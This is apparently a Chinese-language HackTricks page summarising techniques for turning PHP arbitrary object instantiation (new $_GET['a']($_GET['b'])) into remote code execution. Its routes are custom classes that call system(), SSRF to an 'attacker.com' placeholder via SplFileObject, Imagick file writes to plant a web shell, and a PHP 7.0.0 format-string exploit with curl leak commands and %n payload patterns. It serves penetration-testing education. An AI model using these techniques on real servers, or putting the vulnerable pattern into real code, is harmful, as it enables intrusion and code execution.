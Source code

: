 # PHP - RCE 滥用对象创建: new $_GET["a"]($_GET["b"])

{{#include ../../../banners/hacktricks-training.md}}

这基本上是 [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) 的摘要

## 介绍

创建任意新对象，例如 `new $_GET["a"]($_GET["a"])`，可能导致远程代码执行 (RCE)，如 [**writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) 所述。本文件强调实现 RCE 的各种策略。

## 通过自定义类或 Autoloading 实现 RCE

语法 `new $a($b)` 用于实例化对象，其中 **`$a`** 表示类名，**`$b`** 是传递给构造函数的第一个参数。这些变量可以来自用户输入（例如 GET/POST），可能是字符串或数组，也可以来自 JSON，在那里它们可能表现为其他类型。

考虑下面的代码片段：
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
在这种情况下，将 `$a` 设置为 `App` 或 `App2`，并将 `$b` 设置为一个系统命令（例如 `uname -a`），会导致该命令被执行。

**Autoloading functions** 可以被利用，如果没有这些类可以直接访问。 这些函数在需要时会自动从文件加载类，并通过 `spl_autoload_register` 或 `__autoload` 定义：
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
自动加载（autoloading）的行为因 PHP 版本而异，从而提供不同的 RCE 可能性。

## 通过内置类的 RCE

如果缺少自定义类或自动加载器，**内置的 PHP 类** 可能足以实现 RCE。这些类的数量通常在 100 到 200 之间，取决于 PHP 版本和所安装的扩展。可以使用 `get_declared_classes()` 列出它们。

可以通过反射 API 找出感兴趣的构造函数，如下面的示例和链接 [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF) 所示。

**通过特定方法的 RCE 包括：**

### **SSRF + Phar Deserialization**

`SplFileObject` 类通过其构造函数启用 SSRF，允许连接到任意 URL：
```php
new SplFileObject('http://attacker.com/');
```
SSRF 可能在使用 Phar 协议时导致 PHP 8.0 之前版本的 deserialization attacks。

### **利用 PDOs**

PDO 类的构造函数允许通过 DSN strings 连接到数据库，可能允许文件创建或其他交互：
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

PHP 到 5.3.22 和 5.4.12 的版本容易受到通过 `SoapClient` 和 `SimpleXMLElement` 构造函数的 XXE 攻击，具体取决于 libxml2 的版本。

## RCE 通过 Imagick 扩展

在对**项目依赖项**的分析中，发现通过实例化新对象可以利用 **Imagick** 进行**命令执行**。这提供了利用漏洞的机会。

### VID parser

发现 VID 解析器能够将内容写入文件系统中的任意指定路径。这可能导致将 PHP shell 放置到可通过 Web 访问的目录中，从而实现远程代码执行（RCE）。

#### VID Parser + File Upload

需要注意的是 PHP 将上传的文件临时存放在 `/tmp/phpXXXXXX`。Imagick 中的 VID 解析器使用 **msl** 协议，可以在文件路径中处理通配符，从而将临时文件传送到选定的目标位置。该方法提供了在文件系统中实现任意文件写入的另一种途径。

### PHP 崩溃 + Brute Force

一种在[**original writeup**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)中描述的方法涉及上传会在删除前触发服务器崩溃的文件。通过对临时文件名进行暴力猜测，Imagick 就有可能执行任意 PHP 代码。然而，该技术仅在过时的 ImageMagick 版本中有效。

## Format-string in class-name resolution (PHP 7.0.0 Bug #71105)

当用户输入控制类名（例如 `new $_GET['model']()`）时，PHP 7.0.0 在进行 `Throwable` 重构期间引入了一个短暂的 Bug，导致引擎在解析类名时错误地将其当作 printf 格式字符串处理。这使得可以在 PHP 内部利用经典的 printf 风格原语：leaks（使用 `%p`）、通过宽度说明符控制写入计数，以及针对进程内指针（例如 ELF 构建的 GOT 条目）使用 `%n` 执行任意写入。

Minimal repro vulnerable pattern:
```php
<?php
$model = $_GET['model'];
$object = new $model();
```
利用概述（来自参考）：
- Leak 地址 via `%p` in the class name to find a writable target:
```bash
curl "http://host/index.php?model=%p-%p-%p"
# Fatal error includes resolved string with leaked pointers
```
- 使用位置参数和宽度说明符设置精确的字节计数，然后 `%n` 将该值写入栈上可访问的地址，目标为 GOT 槽（例如 `free`）以部分覆盖为 `system`。
- 通过传递包含 shell 管道的类名来触发被劫持的函数，从而执行 `system("id")`。

Notes:
- 仅适用于 PHP 7.0.0 (Bug [#71105](https://bugs.php.net/bug.php?id=71105))；在随后的版本中已修复。严重性：critical（如果存在任意类实例化）。
- Typical payloads 串联多个 `%p` 遍历栈，然后使用 `%.<width>d%<pos>$n` 来实现部分覆盖。

## References

- [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)
- [The Art of PHP: CTF‑born exploits and techniques](https://blog.orange.tw/posts/2025-08-the-art-of-php-ch/)

{{#include ../../../banners/hacktricks-training.md}}
